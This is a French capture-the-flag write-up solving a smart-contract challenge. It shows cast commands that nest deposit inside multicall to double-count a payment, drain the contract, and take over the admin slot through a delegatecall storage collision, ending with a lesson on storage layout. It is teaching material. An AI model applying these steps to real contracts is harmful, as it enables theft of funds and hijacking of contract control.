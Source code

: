 on a deposit et multicall(deposit()) encoder il suffit d'appeler multicall avec ces deux valeurs

```
cast send $TARGET "multicall(bytes[])" '[0xd0e30db0, 0xac9650d80000000000000000000000000000000000000000000000000000000000000020000000000000000000000000000000000000000000000000000000000000000100000000000000000000000000000000000000000000000000000000000000200000000000000000000000000000000000000000000000000000000000000004d0e30db000000000000000000000000000000000000000000000000000000000]' --value 0.001ether -r $RPC --private-key $PK
```

et on peut verifier si ceci a bien fonctionne
```
cast balance $TARGET -r $RPC
2000000000000000

cast call $TARGET "balances(address)" 0x..monadresse... -r $RPC
0x00000000000000000000000000000000000000000000000000071afd498d0000
```
71afd498d0000 = 2000000000000000

On peut maintenant vider le contrat

```
cast send $TARGET "execute(address,uint256,bytes)" 0x...monadresse... 2000000000000000 "0x" -r $RPC --private-key $PK

cast balance $TARGET -r $RPC
0
```

on reunni donc toutes les conditions pour setMaxBalance()

```
cast send $TARGET "setMaxBalance(uint256)" 0x...monadresse... -r $RPC --private-key $PK

cast call $TARGET "admin()" -r $RPC
0x00000000000000000000000000000000000000000000000000000monaddresse
```

Et voila challenge finit, ce challenge nous fait bien comprendre la dangerosite des delegate call et l'importance de bien penser au layers de storage quand on code un smartcontrat
